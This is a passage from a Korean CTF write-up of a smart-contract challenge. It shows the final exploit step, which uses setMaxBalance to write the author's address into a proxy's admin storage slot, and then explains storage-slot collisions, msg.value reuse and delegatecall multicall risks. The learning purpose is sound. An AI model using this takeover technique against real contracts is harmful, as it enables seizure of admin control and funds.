 ```solidity
await contract.setMaxBalance(751856855013772392084094884552209194018036163482)
await web3.eth.getStorageAt(contract.address,1)
'0x00000000000000000000000083b26d6a3d3fabd9f0a5f1d69dca1ce6cc4ea39a'
```

프록시의 1번째 슬롯인 admin의 위치에 내 메타마스크 주소를 넣었다! 즉 admin 권한을 획득한 것이므로 문제 인스턴스를 제출하자.

 

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fc6df2de-2438-4644-b10e-3920eed07f2c/%EC%84%B1%EA%B3%B5.png)

# 후기

프록시 패턴을 사용해서 컨트랙트의 업그레이드 기능을 구현하고 배포하는 가스 비용을 줄이는 경우가 많다. 하지만 이런 경우 스토리지 슬롯 넘버가 같으면 충돌이 일어나서 의도하지 않은 실행이 될 수 있기 때문에 이를 고려해서 구현해야 한다. 

또한 이더리움의 양을 코드에 쓰기 위해 msg.value를 사용하는 경우 이더는 소비되더라도 전역 변수인 msg.value는 하나의 트랜잭션 내에서 계속해서 유지된다. 따라서 개발자는 이더를 소비한 이후 실제 남은 이더를 수동으로 추적해야 한다. 

또한 multi-call 패턴의 위험성도 볼 수 있다. delegatecall을 이용해서 multi-call 을 구현하게 될 경우 컨트랙트로 보내진 원본 msg.value가 유지되므로 원하지 않은 이더의 전송이 일어날 수 있음에 유의해야 한다.
